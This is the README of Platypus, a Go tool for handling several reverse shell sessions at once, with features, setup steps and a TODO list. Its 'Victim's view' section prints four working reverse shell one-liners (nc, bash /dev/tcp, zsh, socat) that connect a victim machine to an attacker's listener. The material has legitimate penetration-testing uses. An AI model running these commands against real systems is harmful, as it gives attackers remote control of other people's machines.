








# Platypus

[](https://travis-ci.org/WangYihang/Platypus)
[](https://github.com/WangYihang/Platypus/stargazers)
[](https://github.com/WangYihang/Platypus)
[](https://github.com/WangYihang/Platypus/releases)

A modern multiple reverse shell sessions/clients manager via terminal written in go


## Features

- [x] Multiple service listening port
- [x] Multiple client connections
- [x] RESTful API
- [x] Reverse shell as a service (Pop a reverse shell in multiple languages without remembering idle commands)
- [x] Download/Upload file with progress bar
- [x] Full interactive shell
  - [x] Using vim gracefully in reverse shell
  - [x] Using CTRL+C and CTRL+Z in reverse shell
- [x] Start servers automatically
- [x] Initialize from configuration file


## Get Start

> There are multiple ways to run this tool, feel free to choose one of the following method.

### Run Platypus from source code
```
git clone https://github.com/WangYihang/Platypus
cd Platypus
go run platypus.go
```

### Run Platypus from release binaries
1. Download `Platypus` prebuild binary from [HERE](https://github.com/WangYihang/Platypus/releases)
2. Run the downloaded executable file

### [DEPRECATED due to out of date] Run Platypus from docker
```
// Build your docker image
docker build -t platypus .

// Start platypus from docker container, don't forget to create port mapping
docker run -it -p 9999:9999 platypus
```

## Usage

### Network Topology
* Attack IP: `192.168.174.132`
  * Reverse Shell Service: `0.0.0.0:8080`
  * RESTful Service: `127.0.0.1:9090`
* Victim IP: `192.168.174.128`

### Connecting victim and attacker

> As we all know, the using senanrio of reverse shell is about both attacker side and the victim side.
Now we will seperate the usage guide into two views, the attacker's view and the victim's view.

#### Attacker's view

1. First the attacker should start platypus and listen on some port (eg: 8080).



2. Then the victim is attacked by the attacker and a reverse shell command will be executed on the machine of victim.

#### Victim's view
The victim machine will be hacked and execute the evil command to generate a reverse shell to attack.

Here are some reverse shell commands for various platform.
```bash
nc -e /bin/bash 192.168.174.132 8080
bash -c 'bash -i >/dev/tcp/192.168.174.132/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.174.132 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.174.132:8080
```



### Controlling the victim

#### List all victims



#### Select a victim


#### Interactive shell


#### Download file


#### Upload file


### Advanced [USAGE](./USAGE.md)

* Reverse shell as a Service (RaaS)
* RESTful API

#### Using `VIM` in Reverse Shell (Only on `Linux`)
> Demonstration is to be done.

## Other Materials

* [Presentation on KCon 2019 ](https://github.com/WangYihang/Presentations/blob/master/2019-08-24%20Introduction%20of%20Platypus%20(KCon)/Introduction%20of%20Platypus.pdf)
* [Demo Video](http://www.youtube.com/watch?v=Yfy6w8qXcQs "Platypus")

## TODOs
- [ ] [#7 Allow user to choose operation for the same IP income connection](https://github.com/WangYihang/Platypus/issues/7)
- [ ] [#25 Replace new connection from same IP with old one](https://github.com/WangYihang/Platypus/issues/25)
- [ ] [#10 Use database to record all events and interacting logs](https://github.com/WangYihang/Platypus/issues/10)
- [ ] [#12 Add capability of setting human-readable name of session](https://github.com/WangYihang/Platypus/issues/12)
- [ ] [#15 Encryption support](https://github.com/WangYihang/Platypus/issues/15)
- [ ] [#19 Read command file when start up](https://github.com/WangYihang/Platypus/issues/19)
- [ ] [#24 Upgrading platypus to a system service](https://github.com/WangYihang/Platypus/issues/24)
- [ ] Upgrade to Metepreter session
- [ ] Test driven development [WIP]
- [ ] Continuous Integration
- [ ] Heart beating packet
- [ ] More interfaces in RESTful API
- [ ] RESTful API should auth
- [ ] Use crontab
- [ ] Use HR package to detect the status of client (maybe `echo $random_string`)
- [ ] Provide full kernel API
- [ ] List file
- [ ] Web UI
- [ ] Benchmark
- [x] Add config file
- [x] [#30 RaaS support specifying language, thanks for @RicterZ](https://github.com/WangYihang/Platypus/issues/30)  
- [x] Execute user input when input is not a built-in command
- [x] Download/Upload progress bar
- [x] [#6 Send one command to all clients at once (Meta Command)](https://github.com/WangYihang/Platypus/issues/6)
- [x] User guide
- [x] Upload file
- [x] Download file
- [x] [#13 Add a display current prompt setting](https://github.com/WangYihang/Platypus/issues/13)
- [x] Global Config (eg. [#9 BlockSameIP](https://github.com/WangYihang/Platypus/pull/9))
- [x] [#11 Make STDOUT and STDERR distinguishable](https://github.com/WangYihang/Platypus/issues/11)
- [x] [#23 Case insensitive CLI](https://github.com/WangYihang/Platypus/issues/23)
- [x] Delete command by [@EddieIvan01](https://github.com/EddieIvan01)
- [x] OS Detection (Linux|Windows) by [@EddieIvan01](https://github.com/EddieIvan01)
- [x] Upgrade common reverse shell session into full interactive session
- [x] Docker support (Added by [@yeya24](https://github.com/yeya24))


## Contributors

This project exists thanks to all the people who contribute. 
<a href="https://github.com/WangYihang/Platypus/graphs/contributors"></a>

## Backers

Thank you to all our backers! 🙏 [[Become a backer](https://opencollective.com/Platypus#backer)]

<a href="https://opencollective.com/Platypus#backers" target="_blank"></a>


## Sponsors

Support this project by becoming a sponsor. Your logo will show up here with a link to your website. [[Become a sponsor](https://opencollective.com/Platypus#sponsor)]

<a href="https://opencollective.com/Platypus/sponsor/0/website" target="_blank"></a>
<a href="https://opencollective.com/Platypus/sponsor/1/website" target="_blank"></a>
<a href="https://opencollective.com/Platypus/sponsor/2/website" target="_blank"></a>
<a href="https://opencollective.com/Platypus/sponsor/3/website" target="_blank"></a>
<a href="https://opencollective.com/Platypus/sponsor/4/website" target="_blank"></a>
<a href="https://opencollective.com/Platypus/sponsor/5/website" target="_blank"></a>
<a href="https://opencollective.com/Platypus/sponsor/6/website" target="_blank"></a>
<a href="https://opencollective.com/Platypus/sponsor/7/website" target="_blank"></a>
<a href="https://opencollective.com/Platypus/sponsor/8/website" target="_blank"></a>
<a href="https://opencollective.com/Platypus/sponsor/9/website" target="_blank"></a>


